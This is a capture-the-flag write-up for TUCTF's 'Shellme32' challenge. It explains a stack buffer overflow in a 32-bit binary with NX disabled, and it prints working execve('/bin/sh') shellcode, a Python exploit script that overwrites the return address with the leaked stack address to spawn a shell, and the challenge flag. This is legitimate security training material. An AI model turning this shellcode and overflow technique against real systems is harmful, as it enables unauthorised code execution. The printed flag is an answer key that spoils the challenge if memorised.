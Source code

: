 Shellme32
> One small step for hacker's, one giant leap for pwning kind.

Solved by Vanilla

We use Radare2 to inspect the binary.  (s main; af; pdf)  The binary leaks the location of the stack (information disclosure), then uses read(2) to read 0x40 bytes into a buffer that is at most 0x24 bytes long, meaning there is a stack-based buffer overflow vulnerability.  It also prints a message about shellcode.  The binary has NX disabled (see Radare2's "iI" command output), so we can use shellcode.

A standard execve("/bin/sh") shellcode can be gotten off the Internet; I started with https://www.exploit-db.com/shellcodes/46809 and made a few modifications so it worked (the shellcode as-written there does not set EDX (the environ parameter to execve), so it fails as-is).

The final shellcode we used was:

; vim:ft=fasm
use32

; https://www.exploit-db.com/shellcodes/46809
xor    ecx,ecx
push   11
pop    eax
push   ecx
mov    ecx,esp
mov    edx,esp
push   '/sh'
push   '/bin'
mov    ebx,esp
int    80h
int3

Then I inserted this into an exploit script:

#!/usr/bin/env python3
import struct
import vanillib

SHELLCODE = open('scode.bin', 'rb').read()


def exploit(iface):
    iface.expect(b"Shellcode... Can you say shellcode?\n")
    address = int(iface.read_until(b"\n", include=False), 16)
    iface.expect(b"> ")
    padded_scode = SHELLCODE + b"\xCC" * ((-len(SHELLCODE)) % 4)
    iface.write(padded_scode + struct.pack('<I', address) * ((0x40 - len(padded_scode)) // 4) + b"exec sh -il 2>&1\n")
    iface.interact()


main = vanillib.stub_main(exploit)

if __name__ == "__main__":
    main()

Flag: TUCTF{4www..._b4by5_f1r57_3xpl017._h0w_cu73}

